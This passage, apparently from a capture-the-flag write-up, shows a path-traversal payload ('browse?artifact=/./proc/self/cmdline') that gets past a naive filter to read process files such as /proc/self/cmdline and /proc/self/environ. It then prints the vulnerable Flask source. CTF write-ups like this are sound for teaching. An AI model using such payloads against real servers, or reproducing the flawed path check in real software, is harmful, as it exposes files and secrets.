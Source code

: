 We can find the location of the source code via:
- `/proc/self/cmdline` as it represents the command-line arguments passed to the current process.
- `/proc/self/environ` which contains the environment variables associated with the current process.

The payload `browse?artifact=/./proc/self/cmdline`. Provides us the output:

```bash
Path: /home/musem/app.py
```

We get the source code of the app.py file.

```python
from flask import Flask, request, render_template, send_from_directory, send_file, redirect, url_for
import os
import urllib
import urllib.request

app = Flask(__name__)

@app.route('/')
def index():
    artifacts = os.listdir(os.path.join(os.getcwd(), 'public'))
    return render_template('index.html', artifacts=artifacts)

@app.route("/public/<file_name>")
def public_sendfile(file_name):
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return "Error retrieving file", 404
    return send_file(file_path)

@app.route('/browse', methods=['GET'])
def browse():
    file_name = request.args.get('artifact')

    if not file_name:
        return "Please specify the artifact to view.", 400

    artifact_error = "<h1>Artifact not found.</h1>"

    if ".." in file_name:
        return artifact_error, 404

    if file_name[0] == '/' and file_name[1].isalpha():
        return artifact_error, 404
    
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return artifact_error, 404

    if 'flag.txt' in file_path:
        return "Sorry, sensitive artifacts are not made visible to the public!", 404

    with open(file_path, 'rb') as f:
        data = f.read()

    image_types = ['jpg', 'png', 'gif', 'jpeg']
    if any(file_name.lower().endswith("." + image_type) for image_type in image_types):
        is_image = True
    else:
        is_image = False

    return render_template('view.html', data=data, filename=file_name, is_image=is_image)
```